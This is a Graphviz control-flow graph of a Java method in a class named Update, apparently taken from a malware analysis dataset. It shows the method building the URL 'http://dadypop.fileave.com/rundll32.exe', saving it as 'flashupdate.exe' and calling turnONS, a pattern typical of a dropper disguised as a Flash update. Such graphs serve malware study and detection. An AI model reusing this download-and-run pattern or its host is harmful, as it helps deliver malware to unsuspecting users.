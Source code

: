 digraph "" {
    "r0 := @this: Update"
    "load.r r0"
    "r0 := @this: Update"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"http://dadypop.fileave.com/rundll32\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"http://dadypop.fileave.com/rundll32\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"http://dadypop.fileave.com/rundll32\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"flashupdate\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"flashupdate\"";
    "push \"flashupdate\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticinvoke <Update: java.lang.String getDir()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <Update: java.lang.String getDir()>";
    "virtualinvoke <Update: void Update(java.lang.String,java.lang.String,java.lang.String)>"
    "staticinvoke <Update: java.lang.String getDir()>"->"virtualinvoke <Update: void Update(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <Update: void turnONS()>"
    "virtualinvoke <Update: void Update(java.lang.String,java.lang.String,java.lang.String)>"->"staticinvoke <Update: void turnONS()>";
    "return"
    "staticinvoke <Update: void turnONS()>"->"return";
}
